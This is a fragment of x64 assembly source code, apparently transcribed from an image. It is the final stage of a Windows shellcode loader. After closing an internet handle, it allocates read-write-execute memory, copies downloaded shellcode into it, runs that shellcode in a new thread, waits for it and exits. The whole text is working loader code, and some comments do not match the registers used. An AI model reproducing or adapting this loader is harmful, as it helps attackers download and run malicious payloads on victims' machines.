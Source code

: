 ```nasm
    mov rcx, rdi ;hInternet
    call r12

; ---- Allocate memory ----
    mov rcx, 0                    ; LPVOID lpAddress = NULL
    mov rdx, 0x5000               ; SIZE_T dwSize = 20 KB for shellcode
    mov r8d, 0x3000               ; MEM_COMMIT | MEM_RESERVE
    mov r9d, 0x40                 ; PAGE_READWRITE_EXECUTE
    mov rax, [rsp + 22*8]
    call rax
    push rax

; ---- Copy shellcode ----
    ; Normally use memcpy(mem_buffer, chunk, bytesRead) or multiple chunks
    ; Example: single chunk
    pop rcx                      ; destination
    mov rdx, r15                 ; source
    mov r8d,  dword [rsp-0x10]                  ; size
    mov rax, [rsp + 21*8]
    call rax                     ;RtlMoveMemory
    push rax
    ; ---- Create thread ----
   xor rcx, rcx                ; lpThreadAttributes = NULL
   xor rdx, rdx                ; dwStackSize = 0
   pop r8                 ; rsi (example) holds shellcode pointer
   xor r9, r9                  ; lpParameter = NULL
   mov dword [rsp+0x20], 0      ; dwCreationFlags = 0
   mov qword [rsp+0x28], 0      ; lpThreadId = NULL
   mov rax, [rsp+0x88]          ; rax = pointer to CreateThread
   call rax

    ; ---- Wait for shellcode ----
    mov rcx, rax
    mov rdx, 0xFFFFFFFF            ; INFINITE
    mov rbx, [rsp+25*8]
    call rbx
   ; mov rcx, [rel hThread]
   ; call CloseHandle

    ; ---- Free memory ----
   ; mov rcx, [rel mem_buffer]
   ; mov rdx, 0
   ; mov r8d, 0x8000                ; MEM_RELEASE
   ; call VirtualFree

    ; Exit
    xor ecx, ecx
    mov rax, [rsp + 18*8]
    call rax
```
